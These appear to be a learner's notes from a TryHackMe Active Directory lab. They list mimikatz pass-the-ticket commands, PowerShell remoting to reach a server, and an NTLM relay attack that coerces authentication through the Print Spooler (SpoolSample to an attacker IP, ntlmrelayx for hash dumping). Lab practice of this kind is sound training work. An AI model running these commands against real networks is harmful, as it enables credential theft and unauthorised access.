 # mimikatz  import the two TGS
`mimikatz # privilege::debug`
`kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`

`kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`

# Check if the PSsession exists
`New-PSSession -ComputerName thmserver1.za.tryhackme.loc`

# Get RCE on the server
`Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc`


## Authentication relays

Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :

    A valid set of AD account credentials.
    Network connectivity to the target's SMB service.
    The target host must be running the Print Spooler service.
    The hosts must not have SMB signing enforced.

# Enumerate for Print Spoller service
`GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
` *or*
`Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`

# Ensure SMB signing is not enforced
`nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc`

# Find the IP of the server
`dig thmserver1.za.tryhackme.loc`

# Setup NTLM relay
`python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug`

# Coerce A server to authenticate to us (we are on thmwrk1)        
`C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"`

# Get hash dump from server1 (i think xD)
` python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP"`
